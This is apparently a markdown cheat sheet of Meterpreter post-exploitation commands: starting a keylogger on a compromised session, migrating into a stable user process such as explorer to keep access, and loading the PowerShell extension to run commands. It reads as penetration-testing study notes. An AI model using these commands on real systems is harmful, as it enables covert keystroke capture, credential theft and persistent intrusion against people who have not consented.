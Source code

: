## Meterpreter Post-Exploitation

### Key Logging

You can start a keylogger in the context of the current meterpreter session, meaning it will monitor the user that 'owns' the process meterpreter is running under.  

```bash
# Start Keylogger
keyscan_start

# Stop Keylogger
keyscan_stop

# Check logged keystrokes
keyscan_dump
```

If the meterpreter process is running as SYSTEM on Windows, for example, the keylogger will not catch anything because that is a non-interactive user.  To change the context, you must migrate the meterpreter process to a process owned by the desired user.

### Migrating Processes

Remember that Meterpreter is operating under the context of a process and its existence is tied to that process such that if the process ends, so does the Meterpreter session.

The meterpreter process can be migrated to a more reliable process, however.

1. Find a suitable process that will remain persistent and runs in the desired context (ex. explorer)

   ```bash
   ps
   ```

2. Migrate the process to the Process ID of the target process

   ```bash
   migrate PID
   ```

Remember you may only migrate into a process of the same or lower integrity level as the current process.

### Extensions

Extension provide additional functionality to the meterpreter shell.  These can be loaded from within the meterpreter session:

#### Powershell

Allows you to run Powershell commands and scripts.

```bash
# Load the module
load powershell

# Execute a command
powershell_execute "COMMAND"

# Import a Powershell script
powershell_import SCRIPT

# Start a Powershell prompt
powershell_shell
```
